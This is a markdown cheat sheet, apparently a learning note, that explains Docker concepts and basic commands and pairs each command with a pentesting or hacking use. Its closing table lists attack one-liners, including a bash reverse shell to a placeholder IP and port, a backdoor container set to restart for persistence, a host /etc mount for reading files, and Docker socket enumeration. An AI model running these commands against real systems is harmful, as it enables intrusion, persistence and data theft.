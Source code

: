 
# Container 

 A **Container** is a **lightweight, standalone, and executable environment** that includes everything needed to run a piece of software—**code, libraries, system tools, and settings**—packaged together.

# Docker 

 **Docker** is a platform that uses **containerization technology** to package applications and their dependencies into a standardized unit called a **container**, which can run reliably in any computing environment.

##  Key Concepts:

- **Container**: A lightweight, standalone, executable package that includes everything needed to run a piece of software (code, runtime, libraries, environment variables, etc.).
    
- **Docker Image**: A read-only template used to create containers. It includes the application and all dependencies.
    
- **Docker Engine**: The runtime that builds and runs Docker containers.
    
- **Dockerfile**: A script with instructions to build a Docker image.
    
- **Docker Hub**: A cloud-based registry where Docker users can share and store images.
-

## Docker Basic Commands with Definitions and Uses
| **Command**                         | **Definition**                                                | **Usage**                                         | **Hacking/Pentesting Use**                                           |
| ----------------------------------- | ------------------------------------------------------------- | ------------------------------------------------- | -------------------------------------------------------------------- |
| `docker --version`                  | Shows Docker version installed.                               | `docker --version`                                | Verify Docker is installed before using for attacks/labs.            |
| `docker pull <image>`               | Downloads an image from Docker Hub.                           | `docker pull kalilinux/kali-linux-docker`         | Pull Kali Linux or vulnerable app images for pentesting.             |
| `docker images`                     | Lists downloaded Docker images.                               | `docker images`                                   | Check if tools like metasploit, kali, dvwa are available.            |
| `docker ps`                         | Lists running containers.                                     | `docker ps`                                       | Monitor active attack containers or see if a target is using Docker. |
| `docker ps -a`                      | Lists all containers (running + stopped).                     | `docker ps -a`                                    | Useful to see previously deployed malware or persistence.            |
| `docker run <image>`                | Starts a container from an image.                             | `docker run kalilinux/kali-linux-docker`          | Spin up a Kali container with tools like Nmap, sqlmap, etc.          |
| `docker run -it <image>`            | Runs a container interactively with terminal.                 | `docker run -it kalilinux/kali-linux-docker bash` | Get shell inside container for testing tools/exploits.               |
| `docker exec -it <container> <cmd>` | Executes a command in a running container.                    | `docker exec -it mykali bash`                     | Re-enter a container shell or run payload inside a container.        |
| `docker stop <container>`           | Stops a running container.                                    | `docker stop mykali`                              | Kill reverse shell container or halt an attack simulation.           |
| `docker start <container>`          | Restarts a stopped container.                                 | `docker start mykali`                             | Resume an old persistent backdoor container.                         |
| `docker rm <container>`             | Removes a container.                                          | `docker rm mykali`                                | Clean up evidence or destroy infected containers.                    |
| `docker rmi <image>`                | Removes an image.                                             | `docker rmi kalilinux/kali-linux-docker`          | Remove attack image to reduce footprint.                             |
| `docker build -t <name> .`          | Builds image from Dockerfile.                                 | `docker build -t mytool .`                        | Create custom image with malware/tools preinstalled.                 |
| `docker logs <container>`           | Shows logs of a container.                                    | `docker logs dvwa`                                | View web traffic or login attempts in vulnerable apps.               |
| `docker network ls`                 | Lists Docker networks.                                        | `docker network ls`                               | Discover internal container networks used for pivoting.              |
| `docker inspect <container>`        | Shows low-level info.                                         | `docker inspect dvwa`                             | Get internal IP, mounts, or ports of a vulnerable app.               |
| `docker volume ls`                  | Lists all Docker volumes.                                     | `docker volume ls`                                | Check for data persistence or credentials stored.                    |
| `docker-compose up`                 | Starts multiple containers defined in a `docker-compose.yml`. | `docker-compose up`                               | Launch full vulnerable environments (e.g., DVWA + DB).               |
| `docker-compose down`               | Stops and removes containers/networks defined in compose.     | `docker-compose down`                             | Cleanup after training/lab setup.                                    |

## Real-World Hacker Uses with Docker:

| **Scenario**               | **Command**                                                                   | **What Happens**                                          |
| -------------------------- | ----------------------------------------------------------------------------- | --------------------------------------------------------- |
| 🔧 Setup Pentest Lab       | `docker run -d -p 80:80 vulnerables/web-dvwa`                                 | Launch DVWA vulnerable app in seconds.                    |
| 🧪 Test Exploit Safely     | `docker run -it kalilinux/kali-linux-docker`                                  | Run exploit tools in an isolated environment.             |
| 👣 Hide Persistence        | `docker run -d --restart always attacker/backdoor`                            | Backdoor persists after reboot using Docker auto-restart. |
| 📡 Launch Reverse Shell    | `docker exec -it <target> bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'`         | Run reverse shell from inside the container.              |
| 📤 Data Exfiltration       | Mount host volume to steal files. `docker run -v /etc:/mnt alpine ls /mnt`    | Access host's `/etc/passwd` from inside container.        |
| 🚪 Exploit Open Docker API | `curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json` | See running containers if Docker socket is exposed.       |
|                            |                                                                               |                                                           |




